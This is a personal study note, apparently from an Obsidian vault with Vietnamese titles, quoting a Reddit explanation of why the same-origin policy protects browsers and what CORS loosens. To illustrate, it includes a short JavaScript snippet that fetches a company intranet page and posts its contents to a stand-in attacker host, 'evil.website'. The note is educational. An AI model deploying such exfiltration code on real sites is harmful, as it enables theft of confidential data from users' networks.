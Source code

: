 ```yaml
---
share: true
created: 2023-10-30T14:29
updated: 2024-05-06T13:29
alias: same-origin policy là để trình duyệt bảo vệ người dùng, không phải để bảo vệ máy chủ
---
```

You are at work and you're connected to your company's intranet. Only people in your company's network can see this special website containing secret documents.

You visit this random website: [https://evil.website](https://evil.website). On this website, there is the following code:
```js
const fetchResult = await fetch("https://yourcompany.website/secret/documents");
const secretsPage = await fetchResult.text();
await fetch("https://evil.website/database/save", { method: "post", body: secretsPage });
```

Same origin policy (enabled on every browser) disallows this. You cannot be on evil.website and make a request to another website. So line 1 would throw an error and the rest of the code wouldn't run, saving you from a nasty situation.

CORS exists to loosen up this rule. Maybe yourcompany.website is totally cool with the above scenario because evil.website is their poorly named trusted partner. So yourcompany.website sets up CORS to tell the browser: "hey if you're making this request from evil.website, it's totally cool with us." Now the above code will work as expected as the browser is satisfied with this exception to the same origin policy.

In the above example, your browser was potentially being abused to exfiltrate company secrets that are only accessible from your network. Same origin policy protects **your browser** from being abused in these ways. CORS is about providing exceptions to this rule.

The misconception here is the following. People set up CORS on their webserver. That's why they expect CORS protects their web server in some way. This is 100% wrong. Setting CORS up properly is about protecting the clients (ie. browsers). The only side-effect CORS has for your webserver is that it may add a few response headers to help out the browser make a decision. The real magic happens on the browser.

Trích từ:: [What is CORS and why is it so annoying : r/reactjs](https://www.reddit.com/r/reactjs/comments/11cyejn/comment/ja77iy4/)

[How to win at CORS - JakeArchibald.com](https://jakearchibald.com/2021/cors/)
![](https://wizardzines.com/images/uploads/why-same-origin-matters.png) 
[Same-origin policy ngăn chặn việc script ở tab này điều khiển tab kia](./Same-origin%20policy%20ng%C4%83n%20ch%E1%BA%B7n%20vi%E1%BB%87c%20script%20%E1%BB%9F%20tab%20n%C3%A0y%20%C4%91i%E1%BB%81u%20khi%E1%BB%83n%20tab%20kia.md)
[Origin là sự kết hợp của protocol, hostname và port](../../%F0%9F%96%A5%EF%B8%8FM%E1%BA%A1ng%20m%C3%A1y%20t%C3%ADnh/T%C3%AAn%20mi%E1%BB%81n,%20URI/Origin%20l%C3%A0%20s%E1%BB%B1%20k%E1%BA%BFt%20h%E1%BB%A3p%20c%E1%BB%A7a%20protocol,%20hostname%20v%C3%A0%20port.md)